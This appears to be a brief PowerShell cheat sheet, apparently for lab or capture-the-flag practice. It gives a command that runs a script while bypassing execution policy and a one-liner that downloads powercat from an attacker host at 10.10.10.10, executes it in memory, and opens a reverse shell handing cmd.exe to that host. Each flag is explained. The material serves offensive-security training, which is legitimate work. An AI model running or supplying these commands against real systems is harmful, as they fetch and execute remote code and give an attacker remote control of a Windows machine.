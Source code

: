 ### Run PowerShell script
```powershell copy
powershell -ex bypass -File thm.ps1
```
- Executes a PowerShell script, bypassing execution policy.
- `-ex bypass`: Bypasses execution policy.
- `-File thm.ps1`: Specifies script file.

## Powercat Reverse Shell

### PowerShell reverse shell with powercat
```powershell copy
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.10.10:8080/powercat.ps1');powercat -c 10.10.10.10 -p 1234 -e cmd"
```
- Downloads and runs powercat for a reverse shell.
- `-c`: Runs PowerShell command.
- `IEX`: Executes downloaded script.
- `-c 10.10.10.10`: Attacker IP.
- `-p 1234`: Attacker port.
- `-e cmd`: Executes cmd.exe.